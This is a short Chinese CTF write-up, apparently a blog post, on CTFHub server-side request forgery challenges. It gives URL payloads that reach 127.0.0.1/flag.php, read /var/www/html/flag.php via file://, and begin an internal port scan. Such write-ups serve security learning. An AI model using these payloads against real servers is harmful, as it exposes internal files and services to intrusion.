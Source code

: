 ```yaml
---
title: ctfhub-ssrf
date: 2021-09-15 21:15:33
author: Na0H
tags:	
- ctf
categories:
- ctf
excerpt: ctfhub jwt
description:  ctfhub jwt


---
```




ctfshow也做过ssrf，再做一下这边看看是否有缺漏~

## http、file等协议

### 内网访问（http://）

> 尝试访问位于127.0.0.1的flag.php吧

http协议
意思是用目标主机访问其内网环境的flag.php

```
?url=http://127.0.0.1/flag.php
```

![](https://i.loli.net/2021/09/15/93sCEpPbolfNMxB.png)



### 伪协议读取文件

> 尝试去读取一下Web目录下的flag.php吧

直接访问页面无法活的flag，用file协议读取文件

```
/?url=file:///var/www/html/flag.php
```

![](https://i.loli.net/2021/09/14/CZr7AaqFdbEulM6.png)

### 端口扫描

> 来来来性感CTFHub在线扫端口,据说端口范围是8000-9000哦

```
?url=http://127.0.0.1:8000
```
